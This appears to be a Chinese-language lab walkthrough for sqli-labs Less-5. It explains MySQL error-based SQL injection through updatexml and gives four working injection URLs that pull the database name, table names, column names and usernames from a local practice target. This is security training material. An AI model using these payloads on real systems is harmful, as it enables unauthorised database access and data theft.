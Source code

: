 ```yaml
---
title: Less - 05
date: 2023-03-13T13:17:05Z
lastmod: 2023-03-13T13:31:33Z
---
```


# Less - 05

---

# 一、报错注入介绍

---

updatexml(1,concat(0x7e,(database()),0x7e),1)，查看当前库，0x7e是’~'十六进制转化的结果，用来分割我们的结果  
updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='A' limit 0,1),0x7e),1)，查看A库下面的第一张表  
updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='B' limit 0,1),0x7e),1)，查看B表下面的第一个字段  
updatexml(1,concat(0x7e,(select C from A.B),0x7e),1)，查看C字段下面的第一个字段

---

# 二、通关教程

---

## 1、查看当前数据库

---

```http
http://192.168.225.132/sqli-labs/Less-5/?id=1' and updatexml(1,concat(0x7e,(database()),0x7e),1)--+
```

​![image](assets/image-20230313132310-j6c2qug.png)​

## 2、查看security库下的表

---

```http
http://192.168.225.132/sqli-labs/Less-5/?id=1' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='security' limit 0,1),0x7e),1)--+
```

​![image](assets/image-20230313132404-5x7jufy.png)​

这里可以改变limit函数的索引值查看后面的表

## 3、查看users表下的所有字段

---

```http
http://192.168.225.132/sqli-labs/Less-5/?id=1' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 0,1),0x7e),1)--+
```

​![image](assets/image-20230313132853-tltrbuu.png)​

## 4、查看username字段的所有值

---

```http
http://192.168.225.132/sqli-labs/Less-5/?id=1' and updatexml(1,concat(0x7e,(select username from security.users limit 0,1),0x7e),1)--+
```

​![image](assets/image-20230313133123-ewp5sy4.png)​

‍
